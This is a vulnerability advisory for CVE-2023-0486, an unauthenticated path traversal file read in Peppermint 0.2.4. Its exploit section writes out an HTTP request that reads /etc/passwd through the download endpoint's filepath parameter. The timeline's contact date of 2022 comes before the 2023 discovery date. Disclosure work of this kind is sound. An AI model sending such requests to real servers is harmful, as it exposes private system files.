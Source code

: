 ```yaml
---
slug: advisories/smith/
title: Peppermint 0.2.4 - Arbitrary File Read via Path Traversal
authors: Carlos Bello
writer: cbello
codename: smith
product: Peppermint 0.2.4
date: 2023-02-06 12:00 COT
cveid: CVE-2023-0486
severity: 7.5
description: Peppermint 0.2.4 - Arbitrary File Read via Path Traversal
keywords: Fluid Attacks, Security, Vulnerabilities, Peppermint, Arbitrary File Read
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | Peppermint 0.2.4 - Arbitrary File Read via Path Traversal            |
| **Code name**         | [Smith](https://en.wikipedia.org/wiki/Aaron_Smith_(DJ))              |
| **Product**           | Peppermint                                                           |
| **Affected versions** | 0.2.4                                                                |
| **State**             | Public                                                               |
| **Release Date**      | 2023-02-06                                                           |

## Vulnerability

|                       |                                                                                                             |
| --------------------- | ------------------------------------------------------------------------------------------------------------|
| **Kind**              | Lack of data validation - Path Traversal                                                                    |
| **Rule**              | [063. Lack of data validation - Path Traversal](https://docs.fluidattacks.com/criteria/vulnerabilities/063) |
| **Remote**            | Yes                                                                                                         |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                                                    |
| **CVSSv3 Base Score** | 7.5                                                                                                         |
| **Exploit available** | No                                                                                                          |
| **CVE ID(s)**         | [CVE-2023-0486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0486)                               |

## Description

Peppermint version 0.2.4 allows an unauthenticated external attacker to
read arbitrary local files from the server. This is possible because the
application uses the filename sent by the user to construct the absolute
path to the file.

## Vulnerability

This vulnerability occurs because the application uses the filename sent by
the user to construct the absolute path to the file.

### Exploit

To exploit this vulnerability, we only need to send a request like the following
to the server.

```txt
GET /api/v1/ticket/1/file/download?filepath=/etc/passwd HTTP/1.1
Host: vulnerable.com
User-Agent: Fluid Attacks
```

## Evidence of exploitation

![arbitrary-file-read](https://user-images.githubusercontent.com/51862990/214438102-61a231c9-d4b0-4075-bea2-3fb660713d95.png)

## Our security policy

We have reserved the ID CVE-2023-0486 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Peppermint 0.2.4

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Peppermint-Lab/peppermint/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-02-06">
</time-lapse>
